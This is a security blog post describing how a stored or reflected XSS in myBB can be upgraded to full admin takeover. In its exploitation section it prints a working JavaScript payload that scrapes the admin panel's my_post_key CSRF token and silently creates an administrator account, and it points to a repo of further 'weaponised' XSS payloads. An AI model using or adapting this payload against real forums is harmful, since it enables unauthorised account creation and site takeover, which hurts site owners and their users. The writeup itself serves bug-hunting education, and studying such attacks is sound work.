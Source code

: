 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:
[video poc]

You can find this script and more powerful scripts on the `weaponised-XSS-payloads` repo which can be found here: https://github.com/hakluke/weaponised-XSS-payloads

# iii. Conclusion

What really made this concept interesting to me was that whenever people hear XSS, the first thing that pops into mind is cookie stealing. While cookie stealing can be very powerful, there are some downsides. One major downside occurs in stored XSS. In stored XSS, it is hard to gauge whenever the payload will execute. In a lot of cases, by the time the payload executes and you receive the cookie, the session is expired by then. However using a script like this, you can ensure that you have some form of xxx.


As always, thank you for reading.
- mqt

Sources:
~~~
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
~~~

